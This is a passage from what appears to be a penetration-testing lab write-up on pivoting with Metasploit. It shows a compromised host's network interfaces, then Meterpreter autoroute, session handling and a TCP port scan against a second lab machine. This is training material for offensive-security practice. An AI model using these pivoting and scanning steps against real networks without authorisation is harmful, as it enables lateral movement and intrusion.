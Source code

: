 ```bash
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:2a:6e:86:47:fc
    MTU          : 9001
    IPv4 Address : 10.2.30.252 #
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::9c0b:f00a:d8b4:f04f
    IPv6 Netmask : ffff:ffff:ffff:ffff::

    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:1efc
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Target2 is on the same Target1 subnet - **`10.2.30.0/24`** (look at the Interface 12)

### Pivoting

- From the attacker's machine, a route through "target1 `10.2.30.0/20` machine" is needed, to run MSF modules against target2 machine

```bash
run autoroute -s 10.2.30.0/20
```

![run autoroute -s 10.2.30.0/20](.gitbook/assets/image-20230420000244119.png)

- Now, subnet `10.2.30.0/20` can be accessed with `MSFconsole`

```bash
background
sessions -n target-1 -i 1
```

- Scan for open ports on the target2 system - `10.2.21.166`

```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.21.166
set PORTS 1-100
run
```
